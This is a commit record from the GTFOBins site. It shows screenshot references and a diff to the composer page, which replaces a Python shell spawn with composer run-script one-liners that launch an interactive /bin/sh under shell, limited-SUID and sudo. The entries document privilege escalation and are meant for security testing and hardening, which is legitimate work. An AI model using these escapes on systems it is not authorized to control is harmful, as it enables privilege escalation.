

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/composer.md, in a window 1280 px wide. Shown: the whole page at 98% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 910 px from its top, so only the background shows below that.

Commit message:
Update composer
- align to the GTFOBins conventions
- avoid Python
- use limited SUID instead of just SUID

```diff
--- a/_gtfobins/composer.md
+++ b/_gtfobins/composer.md
@@ -1,23 +1,18 @@
 ---
 functions:
-  suid:
+  shell:
     - code: |
-        cat << EOF > composer.json
-        {
-            "scripts": {
-                "command": "python3 -c 'import pty;pty.spawn(\"bash\")'"
-            }
-        }
-        EOF
-        ./composer run-script command
+        TF=$(mktemp -d)
+        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
+        composer --working-dir=$TF run-script x
+  limited-suid:
+    - code: |
+        TF=$(mktemp -d)
+        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
+        ./composer --working-dir=$TF run-script x
   sudo:
     - code: |
-        cat << EOF > composer.json
-        {
-            "scripts": {
-                "command": "python3 -c 'import pty;pty.spawn(\"bash\")'"
-            }
-        }
-        EOF
-        composer run-script command
+        TF=$(mktemp -d)
+        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
+        sudo composer --working-dir=$TF run-script x
 ---
```
